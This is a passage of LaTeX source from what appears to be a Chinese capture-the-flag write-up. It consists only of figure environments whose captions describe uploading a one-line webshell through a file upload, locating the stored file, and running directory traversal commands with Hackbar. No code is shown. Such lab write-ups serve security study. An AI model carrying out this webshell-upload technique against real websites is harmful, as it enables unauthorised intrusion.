    
\includegraphics[width=0.95\textwidth]{2.1.png}
    \caption{题目实例入口与一句话木马代码}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{2.2.png}
    \caption{文件上传成功与存储路径}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{2.3.png}
    \caption{Hackbar执行目录遍历命令}
\end{figure}

\begin{figure}[H]
    \centering
